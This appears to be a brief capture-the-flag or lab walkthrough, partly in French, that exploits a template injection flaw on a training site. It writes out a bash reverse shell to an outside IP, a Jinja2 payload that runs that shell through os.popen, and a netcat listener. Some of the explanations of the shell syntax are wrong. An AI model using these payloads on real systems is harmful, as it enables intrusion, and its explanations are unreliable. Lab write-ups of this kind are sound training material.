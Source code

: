 - http://10.11.1.2/ -- > Flag site BeCode

- L'ip 10.11.2.35 sur le port 5000

- Bash command :

```
bash -c "bash -i >& /dev/tcp/192.168.149.10/4000 0>&1"
```

- -c : read following string as a command
- -i : interactive
- >& : execute following command
- 0>&1 : output correct only

- Include the command in a python instruction and inject it on the vulnerable website :

```
{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/192.168.149.10/4000 0>&1"').read()}}
```

- Before pressing enter, open a shell and run the following netcat command in order to listen to potential SSH connection :

```
nc -lvp 4000
```